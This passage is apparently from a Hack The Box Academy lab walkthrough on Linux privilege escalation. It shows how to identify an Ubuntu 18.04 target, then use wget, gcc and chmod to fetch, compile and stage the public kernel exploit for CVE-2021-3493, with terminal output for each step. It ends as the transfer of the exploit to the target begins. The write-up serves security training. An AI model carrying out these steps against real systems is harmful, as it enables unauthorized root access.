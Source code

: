 Next, students need to identify the Linux OS version:

Code: shell

```shell
cat /etc/lsb-release
```

```
htb-student@NIX02:~$ cat /etc/lsb-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=18.04
DISTRIB_CODENAME=bionic
DISTRIB_DESCRIPTION="Ubuntu 18.04.6 LTS"
```

Having identified the OS version as `Ubuntu 18.04 LTS`, students need to use Google to find a corresponding kernel exploit; ultimately discovering [CVE-2021-3493](https://github.com/briskets/CVE-2021-3493).

Students need to download the exploit to their attack host, then compile it with `gcc`:

Code: shell

```shell
wget https://raw.githubusercontent.com/briskets/CVE-2021-3493/main/exploit.c
gcc exploit.c -o kernelExploit
chmod +x kernelExploit
```

```
┌─[eu-academy-1]─[10.10.14.40]─[htb-ac-594497@htb-mrizotlp0i]─[~]
└──╼ [★]$ wget https://raw.githubusercontent.com/briskets/CVE-2021-3493/main/exploit.c

--2024-01-26 17:03:02--  https://raw.githubusercontent.com/briskets/CVE-2021-3493/main/exploit.c
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.108.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3560 (3.5K) [text/plain]
Saving to: ‘exploit.c’

exploit.c                                      100%[=================================================================================================>]   3.48K  --.-KB/s    in 0s      

2024-01-26 17:03:02 (16.7 MB/s) - ‘exploit.c’ saved [3560/3560]

┌─[eu-academy-1]─[10.10.14.40]─[htb-ac-594497@htb-mrizotlp0i]─[~]
└──╼ [★]$ gcc exploit.c -o kernelExploit

┌─[eu-academy-1]─[10.10.14.40]─[htb-ac-594497@htb-mrizotlp0i]─[~]
└──╼ [★]$ chmod +x kernelExploit 
```

Subsequently, students need to use `scp` to transfer the compiled exploit to the target machine:
